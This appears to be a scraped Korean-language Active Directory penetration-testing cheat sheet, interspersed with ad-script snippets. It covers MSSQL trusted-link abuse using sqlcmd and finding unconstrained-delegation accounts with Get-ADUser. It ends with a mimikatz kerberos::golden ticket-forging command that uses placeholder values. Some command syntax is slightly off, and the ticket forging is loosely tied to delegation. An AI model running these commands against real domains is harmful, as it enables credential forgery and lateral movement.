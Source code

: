 <script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

# MSSQL 남용 및 신뢰할 수 있는 링크

- 네트워크 내 MSSQL 서버 식별

```js
sqlcmd - L;
```

2. 명령 실행 또는 데이터 검색을 위해 신뢰할 수 있는 링크 악용.



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

```js
sqlcmd -S <대상_서버> -U <사용자_이름> -P <암호>
```

# 제약이 없는 위임

- 제약이 없는 위임이 설정된 계정을 식별합니다.

```js
Get-ADUser -Filter {TrustedForDelegation -eq $true} -Properties TrustedForDelegation
```



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

2. 계정을 위장하여 위임을 남용하십시오.

```js
mimikatz.exe "kerberos::golden /domain:<도메인> /sid:<도메인SID> /target:<대상서비스> /rc4:<서비스계정해시> /user:<대상사용자> /service:<서비스명> /target:<대상FQDN>" "exit"
```
